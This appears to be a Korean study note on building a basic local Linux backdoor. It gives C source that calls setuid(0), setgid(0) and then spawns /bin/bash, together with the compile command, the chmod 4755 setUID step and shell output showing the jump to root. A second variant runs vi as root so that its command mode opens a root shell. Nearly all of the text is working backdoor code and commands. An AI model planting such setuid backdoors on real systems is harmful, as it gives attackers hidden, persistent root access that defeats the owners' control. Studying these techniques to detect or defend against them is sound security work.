 # Backdoor basic
```
-rwxr-xr-x. 1 root root 1389024 Apr 30 20:30 /bin/bash
# setUIDbit가 설정되어 있지 않음
chmod 4755 ./bash
# bash 파일에 setUIDbit 설정
[root@Linux1 test]# su test
[test@Linux1 test]$ id
uid=1000(test) gid=1000(test) groups=1000(test) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[test@Linux1 test]$ ./bash
bash-5.1$ id
uid=1000(test) gid=1000(test) groups=1000(test) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
# 이후에 root 권한이 지속되지 않는다.

```

C로 간단한 백도어 만들기
```c
#include <stdio.h>

// fun_main
int main(int argc, char* argv[])
{
        setuid(0);      // UID 설정
        setgid(0);      // GID 설정
        system("/bin/bash");    // bash 쉘 실행(root권한 탈취)
        return 0;
}

```
- 컴파일
```
gcc -o backdoor backdoor.c
```
- setUIDbit 설정
```
chmod 4755 backdoor
```
- 실행결과
```
[test@Linux1 test]$ id
uid=1000(test) gid=1000(test) groups=1000(test) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[test@Linux1 test]$ ./backdoor
[root@Linux1 test]# id
uid=0(root) gid=0(root) groups=0(root),1000(test) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
# root 권한을 탈취 하는데 성공했다.
```

## vim 명령어 모드를 활용한 백도어
```c
#include <stdio.h>

// fun_main
int main(int argc, char* argv[])
{
        setuid(0);      // UID 설정
        setgid(0);      // GID 설정
        system("/usr/bin/vi");  // vim 실행
        return 0;
}
```
- 컴파일 후 SetUIDBit 설정 > 실행
- 명령 모드에서 (:!/bin/bash)실행
- vim은 계속 실행 중인 상태로 유지되고 관리자 권한을 가진 상태로 쉘을 사용하게 된다.
